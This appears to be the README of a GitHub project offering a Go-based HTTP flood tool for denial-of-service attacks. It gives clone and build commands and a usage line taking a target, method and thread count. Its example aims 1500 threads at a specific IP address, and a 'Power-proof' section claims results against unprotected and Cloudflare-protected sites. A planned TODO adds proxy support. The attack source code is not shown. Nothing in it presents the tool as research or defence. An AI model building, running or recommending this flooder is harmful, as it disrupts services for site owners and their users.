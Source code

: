 # test-1.2
Just simple httpflood

TODO:
Remove shity-code 
Add proxy

## Install
```sh
git clone https://github.com/iaxoicmnfc/test-1.2.git
cd test-1.2
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
